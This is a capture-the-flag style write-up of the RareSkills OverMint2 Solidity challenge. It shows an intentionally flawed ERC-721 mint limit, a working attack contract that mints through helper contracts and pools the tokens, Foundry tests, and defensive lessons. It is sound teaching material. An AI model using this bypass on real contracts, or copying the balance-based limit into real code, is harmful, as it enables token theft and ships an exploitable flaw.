 # OverMint2 Challenge

This repository contains my solution to the RareSkills "OverMint2" challenge, focusing on a different type of NFT security vulnerability.

## The Challenge

The challenge involves bypassing a balance check in an ERC-721 implementation to mint more NFTs than the intended limit:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract Overmint2 is ERC721 {
    using Address for address;
    uint256 public totalSupply;

    constructor() ERC721("Overmint2", "AT") {}

    function mint() external {
        require(balanceOf(msg.sender) <= 3, "max 3 NFTs");
        totalSupply++;
        _mint(msg.sender, totalSupply);
    }

    function success() external view returns (bool) {
        return balanceOf(msg.sender) == 5;
    }
}
```

## The Vulnerability

Unlike OverMint1, this contract uses `_mint` instead of `_safeMint`, which removes the reentrancy vector since no callbacks are made. However, the vulnerability still exists in the access control mechanism.

The key insight is that the contract only checks the current token balance (`balanceOf(msg.sender)`) rather than tracking how many NFTs each address has minted in total. This means we can:

1. Create multiple addresses (via contract deployment)
2. Have each address mint tokens individually (staying under the limit)
3. Transfer all tokens to a single collector address

## My Solution

I implemented a solution using a factory pattern to deploy multiple helper contracts:

```solidity
contract PwnOvermint2 {
    Overmint2 overmint;
    HelperPwnOvermint2 helperPwnOvermint;

    address i_owner;

    constructor(address _overmint) {
        i_owner = msg.sender;
        overmint = Overmint2(_overmint);
    }

    function attack() external {
        require(i_owner == msg.sender, "You are not the Owner!");

        // Create proxy attackers and have them mint
        for (uint i = 0; i < 5; i++) {
            helperPwnOvermint = new HelperPwnOvermint2(
                address(overmint),
                address(this)
            );
            helperPwnOvermint.mintAndTransfer();
        }
    }
}

contract HelperPwnOvermint2 {
    Overmint2 overmint;
    PwnOvermint2 pwnOvermint;

    constructor(address _overmint, address _pwnOvermint) {
        overmint = Overmint2(_overmint);
        pwnOvermint = PwnOvermint2(_pwnOvermint);
    }

    function mintAndTransfer() external {
        // Mint 1 NFT
        overmint.mint();

        // Transfer to PwnOvermint
        uint256 tokenId = overmint.totalSupply();
        overmint.transferFrom(address(this), address(pwnOvermint), tokenId);
    }
}
```

I also wrote Foundry tests to verify my solution works correctly:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;
import {Overmint2, PwnOvermint2} from "../src/Overmint2.sol";
import "forge-std/Test.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "forge-std/console.sol";

contract Overmint2Test is Test {
    Overmint2 overmint;
    PwnOvermint2 pwnovermint;

    address DEPLOYER;
    address ATTACKER;

    function setUp() public {
        DEPLOYER = makeAddr("deployer");
        ATTACKER = makeAddr("attacker");

        vm.prank(DEPLOYER);
        overmint = new Overmint2();
        vm.prank(ATTACKER);
        pwnovermint = new PwnOvermint2(address(overmint));
    }

    function testSetUp() public {
        console.log(
            "Both the Overmint and the Attacker contract have successfully been set up!"
        );
        console.log("");
        console.log("The Overmint contract is at: ", address(overmint));
        console.log("The Attacker contract is at: ", address(pwnovermint));
    }

    function testAttack() public {
        uint256 initialBalance = overmint.balanceOf(address(pwnovermint));
        console.log(
            "Before the attack, the attacker address has a balance of %s NFT's",
            initialBalance
        );
        vm.prank(ATTACKER);
        pwnovermint.attack();
        uint256 newBalance = overmint.balanceOf(address(pwnovermint));
        console.log(
            "After the attack, the attacker address has a balance of %s NFT's",
            newBalance
        );
        vm.prank(address(pwnovermint));
        bool balanceOfAttacker = overmint.success();
        assertTrue(balanceOfAttacker);
    }
}
```

## Testing

The test validates that the attack successfully mints 5 NFTs and transfers them to the main contract, satisfying the `success()` function's requirement:

```bash
forge test -vv --match-test testAttack
```

Running the test shows the balance changing from 0 to 5 NFTs after executing the attack.

## Security Insights

This challenge demonstrates important security considerations:

1. Balance checks are not sufficient for enforcing mint limits
2. Access control should track actions (mints) rather than current states (balances)
3. Using separate counters for minted tokens per address is more secure
4. Contract-based attacks can easily circumvent simplistic balance checks through proxy deployments

## Comparison with OverMint1

Unlike OverMint1 which exploited a reentrancy vulnerability, OverMint2 required a different approach:

- OverMint1: Exploited reentrancy via `_safeMint` callback
- OverMint2: Exploited poor access control via factory pattern deployment

This highlights how different implementations of similar functionality can have completely different vulnerability profiles.

## Acknowledgements

This challenge is part of the RareSkills solidity training material on ERC-721 security issues.